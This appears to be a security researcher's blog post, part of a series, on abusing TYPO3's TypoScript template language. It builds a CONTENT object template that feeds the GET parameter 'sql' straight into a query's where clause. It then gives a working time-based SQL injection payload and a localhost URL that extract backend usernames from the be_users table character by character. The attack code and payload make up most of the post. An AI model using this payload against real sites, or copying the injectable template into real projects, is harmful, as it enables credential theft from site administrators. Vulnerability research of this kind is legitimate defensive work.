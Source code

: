 ```yaml
---
permalink: /b5
---
```

{% raw %}
# B5: Tricks with Typo3's template language TypoScript (part 2: SQL injection)

It is recommended to read the previous article of the same series [B4: Tricks with Typo3’s template language TypoScript (part 1: Remote Command Execution)](https://therealcoiffeur.github.io/b4]).

## SQL injection

It is possible to exploit a time-based SQL injection using the `CONTENT` object.

> An object with the content type CONTENT is designed to generate content by allowing to finely select records and have them rendered.
Template example given from the TypoScript documentation:

URL: https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/ContentObjects/Content/Index.html
```
page = PAGE
page.typeNum = 0
page.10 = CONTENT
page.10.table = tt_content
page.10.select {
}
page.10.renderObj = COA
page.10.renderObj {
   10 = TEXT
   10.stdWrap.field = bodytext
   10.stdWrap.wrap = <p>|</p>
}
```

![alt text](../captures/b5_0.png "Template from the documentation")

So I tried to replace the `tt_content` table with a more interesting table like `be_users` but it seems to be impossible to query this table because an error code is returned.

```
page = PAGE
page.typeNum = 0
page.10 = CONTENT
page.10.table = be_users
page.10.select {
}
page.10.renderObj = COA
page.10.renderObj {
   10 = TEXT
   10.stdWrap.field = bodytext
   10.stdWrap.wrap = <p>|</p>
}
```

![alt text](../captures/b5_1.png "Injection in  `where` property")

But while reading the documentation of the `select` property I realized that it was possible to define the `where` property considered as dangerous in the documentation.

> Do not use GET or POST data like GPvar directly with this object! Avoid SQL injections! Don’t trust any external data! Secure any unknown data, for example with intval. - https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/Functions/Select.html?highlight=select#select

So we will use their advice in exactly the opposite way by creating the following template:

```
page = PAGE
# Start POC of Time Based SQLi
page.1 = CONTENT
page.1 {
  table = tt_content
  select {
    where.data = GP:sql
    andWhere.wrap = |
  }
}
# End POC of Time Based SQLi
```

The only thing left to do is to exploit the vulnerability by injecting an SQL query (example: `(IF(substr((SELECT username FROM be_users WHERE uid=1),1,1)='a',SLEEP(5),0))`) in the `$_GET['sql']` parameter of a page using this template which gives us the following example:
- http://127.0.0.1/projects/typo3/9.5.24/index.php?id=1&&no_cache=1&sql=(IF(substr((SELECT%20username%20FROM%20be_users%20WHERE%20uid=1),1,1)=%27a%27,SLEEP(5),0))

#### POC

![alt text](../captures/b5_2.png "POC")
{% endraw %}